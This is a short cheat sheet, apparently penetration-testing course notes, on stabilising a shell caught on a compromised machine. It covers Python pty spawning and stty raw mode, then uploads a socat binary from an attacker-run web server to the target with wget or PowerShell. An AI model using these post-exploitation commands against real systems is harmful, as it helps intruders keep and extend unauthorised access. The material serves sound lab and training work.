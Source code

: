 # Stabilize shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```





```
# step 1
python -c 'import pty;pty.spawn("/bin/bash")' # note that some targets may need the version of Python specified
# step 2
export TERM=xterm # this will give us access to term commands such as clear  
# step 3
stty raw -echo; fg # it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```



```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
# Then press Enter twice, and then enter:
export TERM=xterm
```






It's also useful to be able to change your terminal tty size. First check the current values with: `stty -a` and then change it with `stty rows NUMBER` and `stty cols NUMBER`.



Another way stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.


